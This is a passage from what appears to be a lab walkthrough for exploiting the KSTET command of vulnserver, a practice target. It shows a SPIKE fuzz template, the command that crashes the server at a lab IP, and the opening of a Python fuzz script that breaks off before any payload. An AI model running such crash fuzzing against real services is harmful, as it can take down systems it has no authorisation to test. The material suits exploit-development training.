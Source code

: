 # KSTET: Multi-Stage Payload

-----

## Crashing the application

First thing we want to do is begin fuzzing the application. To do this, let's write a quick spike script to see if we can crash vulnserver.

```
s_readline();
s_string("KSTET ");
s_string_variable(0);
```

Now let's use `generic_send_tcp` to try and crash the application.

```bash
generic_send_tcp 10.10.178.94 9999 kstet.spk 0 0
```

We successfully crashed vulnserver.

![](images/crash.png)

-----

## Replicating the crash

Now that we know we have a crash, let's try to replicate the crash. To do this, we are going to write a quick fuzz script in Python.

```python
#!/usr/bin/env python3

import socket
import sys
import time

# Target information
host = "10.10.178.94"
port = 9999

prefix = "KSTET /.:/"
timeout = 5

```